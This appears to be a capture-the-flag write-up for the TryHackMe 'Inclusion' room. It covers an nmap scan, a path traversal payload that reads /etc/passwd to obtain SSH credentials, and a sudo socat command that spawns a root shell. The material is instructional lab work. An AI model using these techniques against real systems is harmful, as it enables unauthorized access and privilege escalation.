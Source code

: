 # Inclusion

This is a writeup for THM room: Inclusion
https://tryhackme.com/room/inclusion

# Scanning the Machine

First, lets scan the room to see what ports that is open to us using
Nmap.

```
nmap -A -oA nmap_result 10.10.218.
```
Command breakdown:

- A: tell nmap to do an extensive scan on the server.
- oA: output the result to a file, which in this case is “nmap_result”

Execute the command, then we get this:

```
Starting Nmap 7.91 ( https :// nmap.org ) at 2021-08-
04 : 37 UTC
Nmap scan report for 10 .10.218.83 (10.10.218.83)
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.
(Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:
(RSA)
| 256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:
(ECDSA)
|_ 256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a
(ED25519)
80/tcp open http Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```
Service detection performed. Please report any incorrect
results at https://nmap.org/submit/.
```

```
Nmap done: 1 IP address (1 host up) scanned in 38.
seconds
```
now we know that there are SSH and Webserver that is running on
the machine. Since we don't know the credentials for SSH, let's first
access the server to see what we can find.

# Accessing the webserver

Accessing the server from the browser, we are greeted with this
page.
![](images/3-1.png)

Nothing interesting to look at, but we can try to access these
different articles, to see if we can find anything particular.
![](images/3-2.png)

Well, there's nothing weird in the page itself but take a closer look at
the url bar in your browser.
![](images/3-3.png)

for a brief explanation, the “name” variable is pointing to a file
called “hacking”, which is the name of the article that I accessed
currently. What makes it interesting is that we can do a local file
inclusion here by replacing the filename with this “../
<folder_or_file>”, so what this string do?. To breakdown, the double
dot (..) is used to move back from the current folder, then followed
by slash (/) to signal if we want to access a file or open a folder.

Since we don't know what files contain in the parent folder, let's try
to move back to root and access the passwd file in /etc/passwd to
find any information that we can use. To do that, simply replace the
article name in the url bar with this string:

```
.. / .. / .. / .. / etc /passwd
```
The page will then change, displaying this:
![](images/3-4.png)

Username and the password is in the last line besides the hashtag.

# Connect to ssh

With the credentials at hand, we can try to connect to the machine
through SSH. Simply type this in the terminal:

```
ssh falconfeast@10.10.218.
```
It then prompts for password, after inputing it, then we have access
to the system
![](images/4-1.png)

ls the current location will show the files that holds the user's flag.
![](images/4-2.png)

Got it. Now onto the final flag

# Getting the root

To get the root flag, we can try to sudo cat to /root/root.txt and use
the password that we get earlier on to connect to SSH. But can we
do it successfully?.

```
sudo cat / root / root.txt
```
![](images/5-1.png)
Turns out, we can't since the current user is not allowed to execute
the cat command as root based on the image above. So what 
command that is able to run as root by falconfeast?, let's check it
with this command:

```
sudo -l
```
Command Breakdown:
-l: used to list all the commands that is allowed to run as root for the
current user.

![](images/5-2.png)
It looks like the only the command allowed to run as root is socat,
and without asking for password. This is great, we can use this to
elevate our privilege. To do that, type this:

```
sudo socat stdin exec :/ bin /sh
```
Now it might look like it freezes at first because theres nothing that
signify if the command works. But it actually runs successfully,
because it returns something if we execute any command. But first,
let's type whoami, to see who we are right now.

```
whoami
```
![](images/5-3.png)

Alright let's just go straight to the last flag.

```
cat / root / root.txt
```
![](images/5-4.png)

And we're done


